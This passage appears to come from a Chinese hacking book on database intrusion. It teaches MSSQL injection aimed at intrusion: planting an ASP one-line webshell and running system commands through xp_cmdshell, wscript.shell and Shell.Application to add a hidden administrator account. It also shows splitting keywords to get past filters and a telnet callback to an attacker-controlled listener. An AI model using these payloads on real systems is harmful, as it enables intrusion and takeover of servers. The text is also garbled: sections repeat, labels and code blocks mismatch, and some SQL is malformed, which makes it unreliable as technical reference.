

如果要在表中建多个字段，字段之间用逗号隔开。例如我们继续建表：

```
create table tabname(coll image,col2 int,col3 char(255))
```

`char` 后面括号里的 255 是进一步指定了这个类型 `char` 的长度为 255。如图59所示，是建表完成后在查询分析器左边的字体，可以看到表、列及字段。



- (5) 向表中插入数据：

句式是 `insert into 表名(字段名) values('数据')`，例如黑客使用最多的一句话木马插入表中的语句：

```
insert into test(coll) values ('<%Execute(request("g"))%>')
```

如图60所示。



- (6) 查看表中的数据：

接上例，正好看看一句话木马插入表后是什么样子的，相信很多朋友都没亲眼看过吧？查看表中数据的语句是：`Select 字段 from 表名`，如图61所示。



通过图61 我们能看到，表中的是很标准的一句话木马语句，把这个字段中的整个内容导出为 asp 文件就成了我们的后门。以上就是查询分析器一些简单应用的实例，这个工具涵盖所有的数据库操作，书并非专业数据库书籍，对此只能到为止。

## 11 MSSQL2000 基础知识及注入攻击

MSSQL2000 下角色对应权限具体分为以下两类，一类是服务器角色，另一类是固定数据库角色，大家可参考表1 和表2 。

### 表 1 服务器角色

| 服务器角色名称 | 角色所拥有的相应权限 |
| --- | --- |
| `Sysadmin` | 执行 SQL Server 中的任何动作 |
| `Serveradmin` | 配置服务器设置 |
| `Setupadmin` | 安装和扩展 |
| `Securityadmin` | 管理登录和 `CREATE DATABASE` 的权限以及审计 |
| `Processadmin` | 管理 SQL Server 进程 |
| `Dbcreator` | 创建和修改数据库 |
| `Diskadmin` | 管理磁盘文件 |

### 表 2 固定数据库角色

| 固定数据库名称 | 角色所拥有的权限 |
| --- | --- |
| `db_owner` | 可以执行数据库中所有动作 |
| `db_accessadmin` | 可以添加、删除用户 |
| `db_datareader` | 可以查看数据库中所有数据 |
| `db_datawriter` | 可以添加、修改或删除所有数据 |
| `db_ddladmin` | 可以在数据库中执行 `DDL` 操作 |
| `db_securityadmin` | 管理数据库中安全有关的所有 |
| `db_backupoperator` | 可以备份并执行 `DBCC` 和 `CHECKPOINT` 语句 |
| `db_denyreader` | 不能看到数据库中任何数据 |


- `db_denywriter`：不能改变数据库中任何数据。

在入侵中常见的只有三种权限：`Sysadmin`（即 `SA` 权限）、`DB_OWNER`（管理员权限）和 `PUBLIC`（普通权限）。作一个形象的比喻：

- `SA` 权限就像公司的老板，可以发出任何指令；
- `DB_OWNER` 好像部门经理，能对部门发出任何指令，超出部门范围外就无权处理；
- `PUBLIC` 相当于普通员工，只能处理自己的工作。

由于这三种权限的不同，我们在入侵时采用的思路也是不同的：

- 如果是 `SA` 权限，第一思路是看能否直接执行 `CMD` 命令来入侵，这是比较简单的。
- 如果是 `DB_OWNER` 权限，无法执行 `CMD` 命令，第一思路应该是查找实际路径，通过新建表插入一句话木马再导出到路径拿 WebShell。
- 如果 `PUBLIC` 权限下只能查询表，得到密码后可以尝试后台登录，通过后台拿 WebShell，利用的方法与 Access 数据库很类似。

## 12 利用注入点执行系统命令

首先解释一下系统命令和数据库命令的区别，以免混淆。执行系统命令是指 Windows 命令，比如建一个管理员账号，或执行 `PING`、`TELNET` 等操作，这些都是 Windows 的命令。而建数据库、建表、建字段、使用 `XP_regread`、`XP_cmdshell` 等属于数据库操作语句。

注入点要执行系统命令，必须满足一个权限要求，需要 `SA` 权限。执行命令的方法是通过 `XP_CMDSHELL` 或通过 `WScript.shell` 调用 `CMD` 执行命令。通过注入点执行命令如果成功，页面返回正常，执行失败则返回不正常的页面。但是执行之后对我们的系统造成的影响并不直观，因此在以下的示例中，笔者将在注入点写出注入语句后，相应的在查询分析器中执行一遍语句，以便读者能明白其影响。

先介绍第一种，通过 `xp_cmdshell` 执行系统命令。如果服务器开着 3389，我们可以直接添加一个账号然后登录。

```
http://www.xxx.com/down.php?id=1%20and%20=2 union select 1,2,load_file(char(108,111,97,100,95,102,105,108,101,40,39,99,58,47,98,111,111,116,46,105,110,105,39,41)),4,5,6
```

通过 `xp_cmdshell` 创建一个账号：

```
http://www.xxx.com/down.php?id=1%20and%20=2 union select 1,2,load_file(char(108,111,97,100,95,102,105,108,101,40,39,99,58,47,98,111,111,116,46,105,110,105,39,41)),4,5,6
```

使用一个账号：

```sql
USE master
EXEC sp_addfiledevice 'disk', 'test', 'c:\backup\test.bak'
BACKUP DATABASE pubs TO test
```

查看账号是否成功：

```
net user hacker password123456 /add
```

加入管理员组：

```
net localgroup administrators hacker /add
```

查看组结果：

```
net localgroup administrators
```

## 第一章 数据库入侵相关技术

如果没有上传`xplog70.dll`的能力，可以换个思路，不要用`XP_cmdshell`执行系统命令，还有别的方法也能执行，比如利用`Wscript.shell`执行系统命令。前面所说过的建账号的两个命令，在加入管理员时可以写成如图6-8所示的语句。

```sql
declare @cmd INT
exec sp_oacreate 'wscript.shell',@cmd output
exec sp_oamethod @cmd,'run',null,'net user hacker_ws 12345678 /add','0','true'
```



我们用系统命令 `net user` 查看，建立用户成功，如图69所示。



接着将该用户添加进管理员组，命令如图70所示。

```sql
declare @cmd INT
exec sp_oacreate 'wscript.shell', @cmd output
exec sp_oamethod @cmd,'run',null,'net localgroup administrators hacker_ws /add','0','true'
```



使用系统命令 `net user` 同样能看到建立的账号，说明`cmdshell`执行命令和`wscript.shell`执行命令的效果是一样的，同样能达到执行命令的目的。

> 账号建立成功后登录不上是个常见问题，原因很复杂，所以检测自己是否成功的执行了系统命令，最好是在本地用 `NC` 监听一个端口，然后在注入点执行以下语句：

```sql
declare @cmd INT
exec sp_oacreate 'wscript.shell', @cmd output
exec sp_oamethod @cmd,'run',null,'telnet 你的IP 你的监听端口','0','true'
```

这个连接命令执行后，在注入网站的页面上可能会出现一段时间的假死，查询分析器里也是如此，如图 71 所示。



在我们自己主机监听的端口上查看是否能连接上，输入命令：`nc -vv -l -p 8000`，如图 72 所示，我是连接成功了。



如果不能连接说明没有执行命令，而且不光以建立管理员账号后，连接不上就以为是自己的命令没有执行成功来判断，实际中的情况是，你执行成功了也可能连接不上，这是新手常见的一个误区。

冷静的分析这个问题，无法执行命令有两种可能，第一是使用的存储过程被禁用了。一般介绍的 `SA` 权限注入点执行命令的方法，主要是两种存储过程，一种是通过 `XP_cmdshell`，用 `exec master.dbo.xp_cmdshell 'net user nohack 52581314 /add'` 语句执行命令；一种是通过 `wscript.shell` 存储过程，如图 73 所示。



```sql
DECLARE @shell INT EXEC SP_OACreate 'wscript.shell',@shell OUTPUT EXEC SP_OAMETHOD @shell,'run',null, 'C:\WINNT\system32\cmd.exe /c net user nohack 52581314 /add'
```

在系统中成功建立了该账户，用 `net user` 命令可以查询到，如图 74 所示。



大部分技术文章里介绍的也都是这两种方法，其实利用存储过程执行系统命令还有第三种方法，一般文章中较少提到，利用语句如下：

```sql
DECLARE @shell INT;EXEC SP_OACreate 'Shell.Application';@shell.OUTPUT EXEC SP_OAMETHOD @shell,'run',null,'C:\WINNT\system32\cmd.exe /c net user nohack 52581314 /add'
```

在 url 中使用时，在注入语句后要先加个；（分号），如图75所示。



图75

大家可以看到语句基本和`wscript.shell`是一样的，只是调用不同。在`EXEC SP_OACreate`中间，调用的存储过程从`wscript.shell`变成了`Shell.Application`。如果网站的安全人员对此不了解，只禁用了`xp_cmdshell`和`wscript.shell`，那么这里就能突破了。

我们看看这个语句在 SQL 查询分析器里执行的结果，如图76所示。



图76

命令执行成功了，我们再用系统命令看一下到底添加成功这个账号没有。`cmd`下执行`net user`，结果如图77所示。



图77

执行成功了，不过提醒一点，用这个方法执行语句，要求服务器的`Shell.Application`是启用的。无法执行命令还有第二种可能，就是过滤了你提交的关键字符。就拿利用`XP_cmdshell`执行命令来说，如果过滤了`xp_cmdshell`这个关键字，你提交的语句`exec master.dbo.xp_cmdshell 'net user nohack 52581314 /add'`就有了缺失，自然不会被系统执行。这种情况可以尝试拆分关键字符的方法来绕过，例如这一句可以写成：

```sql
declare @a varchar(10) = 'xp_'; set @a=@a+'cmdshell'; exec master.dbo.[@a] 'net user nohack 52581314 /add'
```


这个连接命令执行后，在注入网站的页面上可能会出现一段时间的假死，查询分析器里也是如此，如图 71 所示。


在我们自己主机监听的端口上查看是否能连接上，输入命令：`nc -vv -l -p 8000`，如图 72 所示，我是连接成功了。


如果不能连接说明没有执行命令，而且不光以建立管理员账号后，连接不上就以为是自己的命令没有执行成功来判断，实际中的情况是，你执行成功了也可能连接不上，这是新手常见的一个误区。

冷静的分析这个问题，无法执行命令有两种可能，第一是使用的存储过程被禁用了。一般介绍的 SA 权限注入点执行命令的方法，主要是两种存储过程，一种是通过 `XP_cmdshell`，用 `exec master.dbo.xp_cmdshell 'net user nohack 52581314 /add'` 语句执行命令；一种是通过 `wscript.shell` 存储过程，如图 73 所示。


```sql
DECLARE @shell INT EXEC SP_OACreate 'wscript.shell',@shell OUTPUT EXEC SP_OAMETHOD @shell,'run',null, 'C:\WINNT\system32\cmd.exe /c net user nohack 52581314 /add'
```

在系统中成功建立了该账户，用 `net user` 命令可以查询到，如图 74 所示。


大部分技术文章里介绍的也都是这两种方法，其实利用存储过程执行系统命令还有第三种方法，一般文章中较少提到，利用语句如下：

```sql
DECLARE @shell INT;EXEC SP_OACreate 'Shell.Application';@shell.OUTPUT EXEC SP_OAMETHOD @shell,'run',null,'C:\WINNT\system32\cmd.exe /c net user nohack 52581314 /add'
```

在 url 中使用时，在注入语句后要先加个；（分号），如图 75 所示。


图75

大家可以看到语句基本和 `wscript.shell` 是一样的，只是调用不同。在 `EXEC SP_OACreate` 中间，调用的存储过程从 `wscript.shell` 变成了 `Shell.Application`。如果网站的安全人员对此不了解，只禁用了 `xp_cmdshell` 和 `wscript.shell`，那么这里就能突破了。

我们看看这个语句在 SQL 查询分析器里执行的结果，如图 76 所示。


图76

命令执行成功了，我们再用系统命令看一下到底添加成功这个账号没有。`cmd` 下执行 `net user`，结果如图 77 所示。


图77

执行成功了，不过提醒一点，用这个方法执行语句，要求服务器的 `Shell.Application` 是启用的。无法执行命令还有第二种可能，就是过滤了你提交的关键字符。就拿利用 `XP_cmdshell` 执行命令来说，如果过滤了 `xp_cmdshell` 这个关键字，你提交的语句 `exec master.dbo.xp_cmdshell 'net user nohack 52581314 /add'` 就有了缺失，自然不会被系统执行。这种情况可以尝试拆分关键字符的方法来绕过，例如这一句可以写成：

```sql
declare @a varchar(10) = 'xp_'; set @a=@a+'cmdshell'; exec master.dbo.[@a] 'net user nohack 52581314 /add'
```


## 第一章 数据库入侵相关技术

如果没有上传`xplog70.dll`的能力，可以换个思路，不要用`XP_cmdshell`执行系统命令，还有别的方法也能执行，比如利用`Wscript.shell`执行系统命令。前面所说过的建账号的两个命令，在加入管理员时可以写成如图6-8所示的语句。

```sql
declare @cmd INT
exec sp_oacreate 'wscript.shell',@cmd output
exec sp_oamethod @cmd,'run',null,'net user hacker_ws 12345678 /add','0','true'
```


我们用系统命令`net user`查看，建立用户成功，如图69所示。


接着将该用户添加进管理员组，命令如图70所示。

```sql
declare @cmd INT
exec sp_oacreate 'wscript.shell', @cmd output
exec sp_oamethod @cmd,'run',null,'net localgroup administrators hacker_ws /add','0','true'
```


使用系统命令`net user`同样能看到建立的账号，说明`cmdshell`执行命令和`wscript.shell`执行命令的效果是一样的，同样能达到执行命令的目的。

> 账号建立成功后登录不上是个常见问题，原因很复杂，所以检测自己是否成功的执行了系统命令，最好是在本地用`NC`监听一个端口，然后在注入点执行以下语句：

```sql
declare @cmd INT
exec sp_oacreate 'wscript.shell', @cmd output
exec sp_oamethod @cmd,'run',null,'telnet 你的IP 你的监听端口','0','true'
```

这个连接命令执行后，在注入网站的页面上可能会出现一段时间的假死，查询分析器里也是如此，如图 71 所示。


在我们自己主机监听的端口上查看是否能连接上，输入命令：`nc -vv -l -p 8000`，如图 72 所示，我是连接成功了。


如果不能连接说明没有执行命令，而且不光以建立管理员账号后，连接不上就以为是自己的命令没有执行成功来判断，实际中的情况是，你执行成功了也可能连接不上，这是新手常见的一个误区。

冷静的分析这个问题，无法执行命令有两种可能，第一是使用的存储过程被禁用了。一般介绍的 SA 权限注入点执行命令的方法，主要是两种存储过程，一种是通过`XP_cmdshell`，用`exec master.dbo.xp_cmdshell 'net user nohack 52581314 /add'`语句执行命令；一种是通过`wscript.shell`存储过程，如图 73 所示。


```sql
DECLARE @shell INT EXEC SP_OACreate 'wscript.shell',@shell OUTPUT EXEC SP_OAMETHOD @shell,'run',null, 'C:\WINNT\system32\cmd.exe /c net user nohack 52581314 /add'
```

在系统中成功建立了该账户，用`net user`命令可以查询到，如图 74 所示。


大部分技术文章里介绍的也都是这两种方法，其实利用存储过程执行系统命令还有第三种方法，一般文章中较少提到，利用语句如下：

```sql
DECLARE @shell INT;EXEC SP_OACreate 'Shell.Application';@shell.OUTPUT EXEC SP_OAMETHOD @shell,'run',null,'C:\WINNT\system32\cmd.exe /c net user nohack 52581314 /add'
```

在 URL 中使用时，在注入语句后要先加个`;`（分号），如图75所示。


图75

大家可以看到语句基本和`wscript.shell`是一样的，只是调用不同。在`EXEC SP_OACreate`中间，调用的存储过程从`wscript.shell`变成了`Shell.Application`。如果网站的安全人员对此不了解，只禁用了`xp_cmdshell`和`wscript.shell`，那么这里就能突破了。

我们看看这个语句在SQL查询分析器里执行的结果，如图76所示。


图76

命令执行成功了，我们再用系统命令看一下到底添加成功这个账号没有。`cmd`下执行`net user`，结果如图77所示。


图77

